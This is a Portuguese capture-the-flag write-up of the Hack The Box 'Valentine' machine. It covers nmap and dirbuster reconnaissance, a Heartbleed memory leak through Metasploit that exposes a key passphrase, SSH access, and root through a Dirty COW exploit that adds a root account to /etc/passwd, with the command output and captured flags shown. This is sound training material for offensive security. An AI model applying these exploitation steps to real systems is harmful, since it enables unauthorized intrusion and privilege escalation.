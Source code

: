 ```yaml
---
layout: post
title: Valentine [Hack The Box] - Hearthbleed
author: obrerodrigues
categories: [CTFs]
tags: [Hack The Box]
---
```

![](https://github.com/brerodrigues/brerodrigues.github.io/raw/master/assets/img/valentine.png)

Essa máquina foi bem fácil e básica, bastou ser um bom script kiddie para conseguir um root fácil. Demorei muito mais tempo que o necessário por não ter percebido algo óbvio que irei citar ao longo do post. A parte mais interessante foi poder explorar e ver na prática a falha Hearthbleed.

Acessando o IP da Valentine no chrome nos leva a uma página estática com uma imagem familiar para quem ficou ligado em notícias de segurança nos últimos tempos. Nela tem a logo de uma vulnerabilidade bem pop e sacar isso já daria meio caminho andado para a flag do user.

Rodei o nmap (nmap -v -A -oN nmap.txt 10.10.10.79) e vi a porta 80/443 com o apache/ssl e a 22 com ssh. E ao mesmo tempo que o nmap, meu dirbuster achou o diretório http://10.10.10.79/dev.

No diretório /dev haviam os arquivos: hype_key e notes.txt.

No notes.txt o conteúdo era:
```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

Nesse momento ainda não sabia que porra poderia ser o decoder/encoder, mas guardei essa informação.

Já em hype_key tinha um bocado de hexadecimais que, ao usar esse site http://www.unit-conversion.info/texttools/hexadecimal/, converti para algo bastante interessante:

<script src="https://gist.github.com/brerodrigues/1bc4113bdb9233ce2270fe1afbe864ef.js"></script>

Uma chave privada! Com certeza deve servir para alguma coisa mas ainda não dava para saber.

Então guardei a chave e abri o metasploit porque tive preguiça. Se você precisou se perguntar a razão de eu abrir o metasploit é porque não se ligou que a imagem da página principal faz referência ao "[heartbleed bug](https://brerodrigues.github.io/hacking/o-famoso-e-aterrorizante-bug-heartbleed "heartbleed bug")".

Voltando a meu metasploit, peguei o exploit do heartbleed, configurei o alvo e outros pequenos detalhes que deixo para você adivinhar e rodei sem mesmo precisar checar e o servidor começou a cuspir conteúdo da memória como deveria. Rodei o exploit mais de uma vez procurando por algo facilmente vísivel. Então em meio a um monte de porcaria eu vi isso:

```
......Z..PN..v............2..{p.]4W.$:..f.....".!.9.8.........5.............................3.2.....E.D...../...A.......................................ux i686; rv:45.0) Gecko/20100101 Firefox/45.0..Referer: https://127.0.0.1/decode.php..Content-Type: application/x-www-form-urlencoded..Content-Length: 42....$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==..U!....c.@..Au..'...............cation/x-www-form-urlencoded..Content-Length: 9....text=asas...K..<y...v.._.
```

Aparentava ser uma requisição http para o tal /decode.php e mais embaixo há a variavel $text com o base64: aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==

Entrando em http://10.10.10.79/decode.php vi que era um simples decodificador para base64. Era disso que o arquivo notes.txt fazia menção e a requisição faz total sentido. Usei o mesmo para decodificar o valor que peguei com o exploit e obtive o resultado: heartbleedbelievethehype

Temos em mãos uma chave privada e um valor obtido explorando o servidor. O que fazer?

Assim que vi a chave privada pensei em usar direto no servidor SSH, mas sem saber o nome de usuário não rolava. Fiquei viajando por um tempo até perceber o nome do arquivo onde estava a chave em hexadecimal: hype_key.

A chave deveria pertencer ao hype e heartbleedbelievethehype poderia muito bem ser um password.

```
brenno@budweiser ~/D/c/h/valentine> ssh -i new2/hype.txt hype@10.10.10.79
Enter passphrase for key 'new2/hype.txt': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun Jul 15 18:26:44 2018 from 10.10.15.248
```

Boa! Hora de pegar a flag do user.txt

```
hype@Valentine:~$ cd Desktop/
hype@Valentine:~/Desktop$ ls
user.txt
hype@Valentine:~/Desktop$ cat user.txt
e6710a5464769fd5fcd216e076961750
```

A escalação de privilégios foi bem simples porque a máquina tava rodando um kernel desatualizado:

```
hype@Valentine:~$ uname -r
3.2.0-23-generic
```

Verificar o kernel é quase sempre a primeira coisa que faço porque caso encontre um desses é fácilimo conseguir root. Com uma pesquisa rápida no Google por essa versão se descobre que é vulnerável ao famigerado [dirtycow](https://pt.wikipedia.org/wiki/Dirty_COW "dirtycow").

Então, usei esta versão do exploit: https://ro.0day.today/exploit/26430 e w00t w00t. Se for usar, não esqueça de modificar pelo amor de deus.

Compilando no meu super ultra secreto diretório:
```
hype@Valentine:/tmp/.obrerodrigues$ gcc -pthread poc.c -o dir -lcrypt
```
Rodando e escolhendo um password seguro para uma conta que tem privilégios root:
```
hype@Valentine:/tmp/.obrerodrigues$ ./dir
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
ieatworld:iePFiy4QljHQk:0:0:pwned:/root:/bin/bash

mmap: 7ff5325d2000

madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'ieatworld' and the password '123457'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'ieatworld' and the password '123457'.
```
Hora de logar e pegar a flag root:
```
hype@Valentine:/tmp/.obrerodrigues$ 
hype@Valentine:/tmp/.obrerodrigues$ 
hype@Valentine:/tmp/.obrerodrigues$ su ieatworld
Password: 
ieatworld@Valentine:/tmp/.obrerodrigues# whoami
ieatworld
ieatworld@Valentine:/tmp/.obrerodrigues# ls /root
curl.sh  root.txt
ieatworld@Valentine:/tmp/.obrerodrigues# cat /root/root.txt
f1bb6d759df1f272914ebbc9ed7765b2
```
E só por curiosidade, que tal descobrir o que tem nesse arquivo curl?
```
ieatworld@Valentine:/tmp/.obrerodrigues# cat /root/curl.sh
/usr/bin/curl -i -s -k  -X 'POST' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0' -H 'Referer: https://127.0.0.1/decode.php' -H 'Content-Type: application/x-www-form-urlencoded' \
    -b 'PHPSESSID=n12acqnj0efoq5etm5d12k6j85' \
    --data-binary $'text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' \
    'https://127.0.0.1/decode.php' >  /dev/null 2>&1
```
Olha só, é a requisição que peguei com o hearthbleed. Provavelmente havia um cronjob rodando esse script e tal.

E com dois exploits de vulnerabilidades pops e um pouco de atenção foi possível obter as flags.
